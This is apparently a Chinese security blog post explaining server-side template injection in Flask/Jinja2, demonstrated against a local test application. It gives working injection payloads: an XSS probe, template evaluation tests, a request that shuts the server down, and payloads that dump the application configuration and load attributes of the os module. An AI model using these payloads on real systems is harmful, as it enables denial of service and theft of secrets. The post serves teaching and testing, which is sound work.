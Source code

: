 ```yaml
---
layout: post
title: "SSTI的服务端模版注入"
subtitle: "Flask && Jinja2中的服务端模版注入"
date: 2019-01-12
author: ppbibo
category: security
finished: true
---
```

[TOC]

## Flask/Jinja2中的服务端模版注入

如果你还没听说过SSTI(服务端模版注入)，或者对其还不够了解，在此之前建议去阅读一下James Kettle写的一篇[文章](http://blog.portswigger.net/2015/08/server-side-template-injection.html)问题出在开发者定义一个404错误页面，该开发者选择使用字符串格式化将URL动态添加到模版字符串中并返回到页面中，用户对模板是可控的。



## 正文

定义一个错误页面

定义了一个模板字符串

使用格式化字符串的方式将URL动态添加到模版字符串中并返回在页面上

用户对模板是可控的

![img](/static/img/a0.png) 

![img](/static/img/a1.png) 

### 触发一个xss

```bash

http://127.0.0.1:5000/<script>alert(/xss/)</script>

```

![img](/static/img/a2.png) 

### Jinjan2 基础语法

``` 
# {% … %}     #运行Jinja2的语句；

# {{ … }}         #在页面中打印Jinja2运行的结果

# {# … #}      #注释

```



### 模版引擎成功解析

```bash

http://127.0.0.1:5000/aaa{{2+2}}

```

![img](/static/img/a3.png) 

### 鸡肋拒绝服务攻击

```Jinjan2
Flask下有一个 request 内置的全局对象

{{ request.environ['werkzeug.server.shutdown']() }}

request.environ  对象是一个与服务器环境相关的对象字典

request.environ	 字典中一个名为shutdown_server的方法名分配的键为   ['werkzeug.server.shutdown']()    关闭服务器。

[http://127.0.0.1:5000/a{](http://127.0.0.1:5000/aalert(1)){ request.environ['werkzeug.server.shutdown']() }}


```

 

### 获取配置项目信息

```
config也是Flask模版中的一个全局对象

它包含了所有应用程序的配置值

{{ config.items() }}		查看配置项目的信息 	

http://127.0.0.1:5000/a{{ config.items() }}

配置项目信息的概念：

[http://www.pythondoc.com/flask/config.html](
```

http://www.pythondoc.com/flask/config.html)

![img](/static/img/a4.png) 

![img](/static/img/a6.png) 

```python
config是一个类字典对象，它的子类包含很多方法：from_envvar, from_object, from_pyfile, root_path

Flask/config.py

def from_object(self, obj):   
```

![img](/static/img/a5.png) 

```text
B. from_object  遍历新加模块中的所有大写的变量的属性并添加属性 

C. 并且这些添加到config对象的属性都会维持他们本来的类型

D. 验证：我们将 {{ config.items() }} 注入到存在SSTI漏洞的应用中，注意当前配置条目

E. 注入  {{ config.from_object('os') }}。这会向config对象添加os库中所有大写变量的属性

F. 再次查看  {{ config.items() }}     ;    os 模块中大写变量的属性成功添加属性
```

 

 参考：

http://www.freebuf.com/articles/web/98619.html
